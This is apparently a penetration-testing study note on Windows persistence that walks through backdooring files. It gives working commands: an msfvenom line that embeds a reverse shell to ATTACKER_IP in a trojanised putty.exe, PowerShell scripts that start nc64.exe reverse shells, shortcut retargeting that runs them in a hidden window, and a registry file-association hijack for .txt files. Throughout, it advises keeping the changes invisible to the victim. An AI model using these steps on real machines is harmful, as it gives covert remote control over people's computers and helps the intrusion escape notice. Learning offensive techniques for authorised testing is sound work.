


# Backdooring files

Another method of establishing persistence tampers with files we know users interact with regularly. 
We can plant backdoors that will get executed whenever the user accesses them. We do not want to create any alerts 
that could blow our cover, so the files we alter must keep working for the user as expected.

There are many ways and files to plant backdoors in. These are the most commonly used ones.

## Executable Files

Any executable lying around the desktop are highly likely used frequently. Suppose we find a shortcut to `PuTTY`. 
Checking the shortcut's properties, it probably points to `C:\Program Files\PuTTY\putty.exe`. We could download the 
executable to our attacker's machine and modify it to run any payload we wanted.

To create a backdoored `putty.exe`:

    msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe

The binary will still work as usual and will execute an additional payload silently by adding an extra thread in the 
binary. The resulting `puttyX.exe` will execute a `reverse_tcp meterpreter` payload without the user noticing it.

## Shortcut files

If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing 
directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute 
the usual program normally.

For example, if there is a calc shortcut, find where it is pointing to by right-clicking it and going to properties.

Create a Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse 
shell and then run `calc.exe` from the original location on the shortcut's properties:

    Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
    
    C:\Windows\System32\calc.exe

|  |
|:--:|
| Save it as `backdoor.ps1`, or perhaps something less conspicuous |

Change the shortcut to point to the script. Its icon might be automatically adjusted while doing so. Be sure to point 
the icon back to the original executable so that no visible changes appear to the user. We also want to run the script 
in a hidden window, for which we add the `-windowstyle hidden` option to Powershell. 

Making the final target of the shortcut:

    powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1

|  |
|:--:|
| Enter target for calc shortcut in its properties window, don't forget to change the icon |

Start a netcat listener to receive the reverse shell:

    nc -nlvp 4445

Try it out by double-clicking the shortcut, see that there is a connection back to the attack machine, and that 
the user will get a calculator just as expected. There may be a command prompt flashing up and disappearing 
immediately on the screen. A regular user might not mind too much about that, maybe. 

## Hijacking file associations

We can also hijack any file association to force the operating system to run a shell whenever the user opens a 
specific file type.

The default operating system file associations are kept inside the registry, where a key is stored for every single 
file type under `HKLM\Software\Classes\`. Check for the `.fileextension` subkey and find which Programmatic ID 
(ProgID) is associated with it.

Then search for a subkey for the corresponding ProgID (also under `HKLM\Software\Classes\`), which will give 
a reference to the program in charge of handling its type of files. Most ProgID entries will have a subkey 
under `shell\open\command` where the default command to be run for files with that extension is specified. If we 
want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens 
the file as usual.

Powershell script, for example for notepad (`.txt` extensions):

    Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
    C:\Windows\system32\NOTEPAD.EXE $args[0]

Note: we have to pass `$args[0]` to notepad, as it will contain the name of the file to be opened, as given through 
`%1`.

Change the registry key to run our backdoor script in a hidden window (Data section), create a listener for the 
reverse shell and try to open any `.txt` file on the target machine.

